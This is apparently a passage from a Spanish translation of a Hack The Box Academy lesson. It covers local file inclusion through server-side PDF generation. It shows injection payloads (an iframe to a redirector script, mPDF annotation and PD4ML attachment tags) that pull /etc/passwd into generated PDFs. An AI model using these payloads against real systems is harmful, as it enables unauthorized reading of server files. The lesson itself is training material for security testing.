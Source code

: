 Luego podemos inyectar la siguiente carga útil, donde la IP apunta al servidor en el que estamos ejecutando el script redirector:
```html
<iframe src="http://172.17.0.1:8000/redirector.php?url=%2fetc%2fpasswd" width="800" height="500"></iframe>
```

Después de hacerlo, el PDF generado ahora contiene el archivo filtrado:
![Tarjeta con texto 'Redirigir LFI' y una lista de información y rutas del usuario del sistema.](https://academy.hackthebox.com/storage/modules/204/pdflfi_5.png)

Para obtener más detalles sobre la explotación de LFI, consulte el [Módulo de inclusión de archivos](https://academy.hackthebox.com/module/details/23).

## Anotaciones
Si bien ya hemos discutido cómo incluir archivos locales en las páginas PDF, los archivos PDF admiten funciones avanzadas como `annotations` y `attachments`, que también podemos utilizar para filtrar archivos locales en el servidor. Esto es particularmente interesante si las cargas útiles analizadas anteriormente no funcionan.

Por ejemplo, considere la biblioteca de generación de PDF `mPDF`, que admite anotaciones a través de `<annotations>` tag. Podemos usar anotaciones para agregar archivos al archivo PDF generado inyectando una carga útil como la siguiente:
```html
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="LFI" />
```

Mirando el archivo PDF generado, podemos ver la anotación con el archivo adjunto. Al hacer clic en el archivo adjunto se revela el archivo adjunto `/etc/passwd` fișier:
![Tarjeta con texto 'Anotación LFI' y un pequeño icono.](https://academy.hackthebox.com/storage/modules/204/pdfattachment_1.png)

Como podemos ver en esto [Problema de GitHub](https://github.com/mpdf/mpdf/issues/356), las anotaciones se han deshabilitado después `mPDF 6.0`. Por lo tanto, las aplicaciones web que utilizan una versión obsoleta de mPDF probablemente sean vulnerables a esto. La opción aún se puede habilitar en versiones más nuevas de mPDF, por lo que también vale la pena probar aplicaciones web utilizando versiones actualizadas de mPDF.

Otra biblioteca de generación de PDF que admite archivos adjuntos es `PD4ML`. Podemos comprobar la sintaxis en el [documentación](https://pd4ml.tech/support-topics/usage-examples/#add-attachment). Como prueba de concepto, podemos utilizar la siguiente carga útil:
```html
<pd4ml:attachment src="/etc/passwd" description="LFI" icon="Paperclip"/>
```

Nuevamente, si miramos el archivo PDF generado, podemos ver la anotación con el archivo adjunto:
![Tarjeta con texto 'Anotación LFI' y un icono, rodeada por texto 'MODO DEMO PD4ML' en los laterales.](https://academy.hackthebox.com/storage/modules/204/pdfattachments_2.png)

Como antes, el archivo se revela si hacemos clic en la anotación. Como podemos ver, es esencial leer la documentación de la biblioteca de generación de PDF específica utilizada por nuestra aplicación web de destino para ver si podemos identificar alguna funcionalidad que potencialmente podamos explotar. Etiquetas personalizadas como `pd4ml:attachment` que permiten el acceso a archivos locales son particularmente interesantes.